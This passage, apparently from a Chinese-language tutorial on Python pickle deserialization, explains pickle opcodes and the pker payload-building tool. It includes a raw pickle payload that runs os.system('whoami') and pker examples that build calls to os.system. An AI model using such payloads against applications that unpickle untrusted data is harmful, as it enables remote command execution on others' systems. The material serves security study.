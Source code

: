 1. `o` ：

```
b'''(cos
system
S'whoami'
o.'''
```

#### 实例化对象

实例化对象是一种特殊的函数执行，这里简单的使用 `R` 构造一下，其他方式类似：

```
class Student:
    def __init__(self, name, age):
        self.name = name
        self.age = age

data=b'''c__main__
Student
(S'XiaoMing'
S"20"
tR.'''

a=pickle.loads(data)
print(a.name,a.age)
```

##  pker使用

工具：https://github.com/EddieIvan01/pker

原理和方法：https://xz.aliyun.com/t/7012#toc-5：

> - 变量赋值：存到memo中，保存memo下标和变量名即可
> - 函数调用
> - 类型字面量构造
> - list和dict成员修改
> - 对象成员变量修改

具体来讲，可以使用pker进行原变量覆盖、函数执行、实例化新的对象。

### 使用方法与示例

1. pker中的针对pickle的特殊语法需要重点掌握（后文给出示例）
2. 此外我们需要注意一点：python中的所有类、模块、包、属性等都是对象，这样便于对各操作进行理解。
3. pker主要用到`GLOBAL、INST、OBJ`三种特殊的函数以及一些必要的转换方式，其他的opcode也可以手动使用：

```
以下module都可以是包含`.`的子module
调用函数时，注意传入的参数类型要和示例一致
对应的opcode会被生成，但并不与pker代码相互等价

GLOBAL
对应opcode：b'c'
获取module下的一个全局对象（没有import的也可以，比如下面的os）：
GLOBAL('os', 'system')
输入：module,instance(callable、module都是instance)  

INST
对应opcode：b'i'
建立并入栈一个对象（可以执行一个函数）：
INST('os', 'system', 'ls')  
输入：module,callable,para 

OBJ
对应opcode：b'o'
```